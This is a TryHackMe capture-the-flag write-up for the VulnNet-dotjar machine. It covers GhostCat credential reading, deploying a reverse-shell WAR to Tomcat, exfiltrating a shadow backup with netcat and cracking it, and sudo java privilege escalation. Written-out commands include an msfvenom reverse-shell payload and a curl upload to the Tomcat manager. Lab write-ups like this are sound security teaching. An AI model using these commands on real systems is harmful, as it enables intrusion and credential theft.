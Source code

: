 ```yaml
---
title: VulnNet-dotjar TryHackMe Writeup
tags: [writeup,ghostcat,tryhackme,tomcat,linux,war,jar,sudo]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/1.png)

## Scanning
We scan with **nmap** all ports, scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/2.png)

## Enumeration
On port 8080 we enumerate a web service with **Tomcat**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/3.png)

The **Tomcat** version is vulnerable to *"GhostCat"*, so using the following exploit we can exploit the vuln and read the credentials stored in *"WEB-INF/web.xml"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/4.png)

## Exploitation
We create a *.war file*
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=XX.XX.XX.XX LPORT=XX -f war -o revshell.war
```
We cannot access from the graphical interface, but we can upload our *.war file* using **curl**.

```bash
curl --user 'user:password' --upload-file m3.war "http://dotjar.thm:8080/manager/text/deploy?path=/m3"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/5.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/6.png)

We do a little reconnaissance, find a backup of the *"shadow"* file, transfer it to our kali with **netcat**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/7.png)

We crack the hashes with the **rockyou** dictionary and get the plain password of the user *"jdk-admin"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/8.png)

We authenticate as the user *"jdk-admin"*, we see that we have access to the user flag and we can also execute the **java binary** as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/9.png)

## Privilege Escalation
Very easy, we generate a *reverse shell* with the **msfvenom** tool and download it to the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/10.png)

We run the malicious binary as **SUDO**, we will get a shell as root and we can read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/11.png)




